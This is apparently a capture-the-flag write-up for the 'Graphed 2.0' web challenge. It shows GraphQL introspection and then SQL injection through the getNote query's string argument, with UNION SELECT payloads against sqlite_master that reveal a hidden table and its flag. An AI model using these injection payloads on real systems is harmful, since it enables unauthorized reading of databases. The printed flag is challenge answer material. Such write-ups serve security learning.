

# Graphed 2.0

"graphed notes is finally here !!!!!! but it looks like something is still broken with that site"

`<link to website>`

<hr>



On the root path `/`, we get a text input box to submit a note. However, when submitting an alert pops up that says
`sorry but this functionality is disabeled due to technical problems`.

Having a look at the source code there are some commented out rows:
```javascript
function create_note() {
    alert("sorry but this functionality is disabeled due to technical problems");
    //query_data = `mutation {createNote(body:${document.getElementById("note-content").value}, title:"anon note", username:"guest"){note{uuid}}}`;
    //fetch(`/graphql?query=mutation{createNote(body:"ww", title:"anon note", username:"guest"){note{uuid}}}`, {method: "POST"});
}
```

Using the `/graphql` path, we are able to query a database using GraphQL, with the `query` URL argument.

A GraphQL introspection to the following path gives us the all possible queries that can be made to the database:
```json
/graphql?query={ __schema { queryType { fields { name description args { name type {name }}}}}}

Response:
{
  "data": {
    "__schema": {
      "queryType": {
        "fields": [
          {
            "name": "node",
            "description": "The ID of the object",
            "args": [
                ...
            ]
          },
          {
            "name": "allNotes",
            "description": null,
            "args": [
                ...
            ]
          },
          {
            "name": "allUsers",
            "description": null,
            "args": [
                ...
            ]
          },
          {
            "name": "coolNotes",
            "description": null,
            "args": []
          },
          {
            "name": "getNote",
            "description": null,
            "args": [
              {
                "name": "q",
                "type": {
                  "name": "String"
                }
              }
            ]
          }
        ]
      }
    }
  }
}
```

The query `getNote` is the only query without any default count or pagination parameters, having only one parameter `q` that is of type `String`.

Lets try using the `getNote` query to inject some SQL code!

Passing our injection code to the argument `q` in `getNote`, we can retrieve all table names and SQL commands used to create every each table. 
```json
/graphql?query={ getNote(q: "2' AND 1=2 UNION SELECT tbl_name, sql, 1, 1 FROM sqlite_master --") { id }}

Response:
{
  "errors": [
    {
      "message": "Received incompatible instance \"('Notes', 'CREATE INDEX \"ix_Notes_title\" ON \"Notes\" (title)', 1, 1)\"."
    },
    {
      "message": "Received incompatible instance \"('Notes', 'CREATE TABLE \"Notes\" (\\n\\tuuid INTEGER NOT NULL, \\n\\ttitle VARCHAR(256), \\n\\tbody TEXT, \\n\\tauthor_id INTEGER, \\n\\tPRIMARY KEY (uuid), \\n\\tFOREIGN KEY(author_id) REFERENCES users (uuid)\\n)', 1, 1)\"."
    },
    {
      "message": "Received incompatible instance \"('users', 'CREATE TABLE users (\\n\\tuuid INTEGER NOT NULL, \\n\\tusername VARCHAR(256), \\n\\tPRIMARY KEY (uuid)\\n)', 1, 1)\"."
    },
    {
      "message": "Received incompatible instance \"('users', 'CREATE UNIQUE INDEX ix_users_username ON users (username)', 1, 1)\"."
    },
    {
      "message": "Received incompatible instance \"('العلم', 'CREATE TABLE العلم (id INTEGER PRIMARY KEY, flag TEXT NOT NULL)', 1, 1)\"."
    }
  ],
  "data": {
    "getNote": [
        ...
    ]
  }
}
```

Oddly enough we see a table called `العلم` which in arabic translates to "science". The `science` contain two columns, `id` and `flag`. 

Querying all rows from the `science` table we get:
```json
/graphql?query={ getNote(q: "2' AND 1=2 UNION SELECT id, flag, 1,1 FROM العلم --") { id } }

Response:
{
  "errors": [
    {
      "message": "Received incompatible instance \"(0, \"flag{h0p3_u_can't_r3@d_1t9176}\", 1, 1)\"."
    }
  ],
  "data": {
    "getNote": [
        ...
    ]
}
```

Givins us the flag:
```
flag{h0p3_u_can't_r3@d_1t9176}
```
